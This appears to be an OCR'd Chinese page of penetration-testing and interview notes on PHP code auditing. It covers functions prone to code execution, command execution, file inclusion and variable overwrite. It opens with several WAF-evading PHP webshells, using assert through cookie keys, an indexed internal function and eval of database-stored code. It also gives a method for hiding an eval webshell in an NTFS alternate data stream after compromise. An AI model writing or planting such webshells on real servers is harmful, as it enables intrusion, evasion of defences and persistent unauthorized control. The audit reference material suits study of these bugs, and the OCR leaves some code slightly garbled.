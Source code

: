 1. `多方式传参免杀：`1. `&lt;?php`1. `$COOKIE = $_COOKIE;`1. `foreach($COOKIE as $key =&gt; $value){`1. `if($key=='assert'){`1. `$key($_POST['s'];)`1. `}`1. `}`1. `?&gt;`1. `&lt;?php`1. `$a=get_defined_functions();`1. `$a['internal'][841]($_GET['a']);`
---

1. `拿到shell之后藏shell的妙招：ntfs文件流`1. `&lt;?php include('/:123.txt')?&gt; + echo "&lt;?php eval($_REQUEST[a])?&gt;" &gt;&gt; /:123.txt `
---

1. `通过连接云主机数据库（我自己取的名字，因为风哥没说~哈哈）:`1. `绕过市面上所有WAF(终极手法)`1. `&lt;?php`1. `eval(mysqli_fetch_assoc(mysqli_query(mysqli_connect('127.0.0.1','root','root','maoshe'),'select * from info'))['info']);`
---


##### 第五个问题(代码审计_文件上传的函数)
1. `hr：看你这边是了解过一些代码审计是吧，那像本地或者远程文件包含的一些函数的话，是有哪些呢，能够导致文件包含漏洞的一个函数`1. `I：xxx`
---


###### 代码执行漏洞的常用函数：
1. `代码审计两种方式：`1. `1.全文通读（工程量浩大，耗时耗力） bluecms`1. `2.危险函数定位法（主流方法）：`1. `1）&lt;?php`1. `eval($_REQUEST[8]) 8=phpinfo();`1. `?&gt;`1. `2）&lt;?php`1. `assert($_REQUEST[8]) 8=phpinfo();`1. `?&gt; `1. `3）file_put_contents('123.php','&lt;?php var_dump(1);var_dump(2);phpinfo();?&gt;'); 8=phpinfo();`1. `4）&lt;?php`1. `echo preg_replace('/a/e',$_GET[8],'abc'); 8=phpinfo();`1. `?&gt;`1. `5.1）&lt;?php`1. `$a = create_function($a,$_REQUEST[8]); 8=phpinfo();`1. `$a();`1. `?&gt;`1. `5.2)&lt;?php`1. `create_function($a,$_REQUEST[8]); 8=phpinfo();`1. `?&gt;`1. `i 在底层代码运行是这样`1. `v`1. `function 函数名(形参){要执行的代码}`1. `&lt;?php`1. `function a($a){};eval('phpinfo();');//} 8=};eval('phpinfo();');//`1. `?&gt;`1. `6）&lt;?php`1. `array_map('assert',array($_REQUEST[8])); 8=phpinfo();`1. `?&gt;`1. `7）&lt;?php`1. `"${phpinfo()}"; //php5.5以上的版本才有 "${要执行的代码}"`1. `?&gt;`1. `&lt;?php`1. `"${eval($_REQUEST[8])}" 8=phpinfo();`1. `?&gt;`
---


###### 命令执行漏洞的常用函数：
1. `在PHP存在诸多函数可以做到命令执行。`1. `1、system('whoami')；`1. `PHP会操纵计算机执行whoami的命令,且输出并返回结果`1. `2、echo exec('whoami')`1. `PHP会去操纵计算机执行whoami的命令,且获取最后一行数据`1. `3、echo shell_exec（'whoami'）`1. `PHP会去操纵计算机执行whoami的命令,且获取所有数据`1. `4、passthru('whoami')`1. `只调用命令，把命令的运行结果原样地直接输出到标准输出设备`1. `5、特殊符号，反引号 ` xxx ` =&amp;gt; echo `whoami`; 反引号其实就是调用的shell_exec()函数`1. `6、popen(要执行的命令，参数); r是只读、w是写入`1. `$a = popen('whoami','r'); 在cmd里面执行whoami，把内容读(r)取出来，放在变量a里面`1. `echo fread($a,1024); 输出（echo）读取（fread）到的内容，并且长度限制为1024`1. `这个执行的返回值比较特殊，返回的是一个文件指针，需要用fread去读取返回值。`1. `对于渗透测试人员而言，返回值并没有那么重要，核心是代码的确已经执行了，这个才是重中之重。`
---


###### 文件包含漏洞的常用函数：
1. `文件包含：`1. `两个函数`1. `include:用到的时候临时调用`1. `require:运行前就先调用，整合后一齐执行`1. `require_once\include_once: 文件只能包含一次`1. `***最大的区别：如果包含不存在的文件的时候，include会往下继续执行，require不会`1. `1、文件包含:可以让任意文件当作PHP运行`1. `2、文件包含:可以突破网站根目录，计算机上任意文件都可以当作PHP文件执行`1. `后端语言要执行，必须放在网站根目录`1. `文件包含：`1. `1、LFI(local file include):本地文件包含(只能包含自己电脑上的东西哦)`1. `2、RFI(remote file include):远程文件包含（可以包含任何访问到的东西）`
---


###### 变量覆盖漏洞的常用函数：
1. `经常引发变量覆盖漏洞的函数有：extract() parse_str() import_request_variables()`1. `extract()函数（作用：将数组中将变量导入到当前的符号表）`1. `给一个实例：`1. `&lt;?php`1. `$a = "1";`1. `$my_array = array("a" =&gt; "Cat","b" =&amp;gt; "Dog", "c" =&amp;gt; "Horse");`1. `extract($my_array);`1. `echo "\$a = $a; \$b = $b; \$c = $c";`1. `?&amp;gt;`1. `运行结果：$a = Cat; $b = Dog; $c = Horse`1. `extract()函数（作用：从数组中将变量导入到当前的符号表）`
---
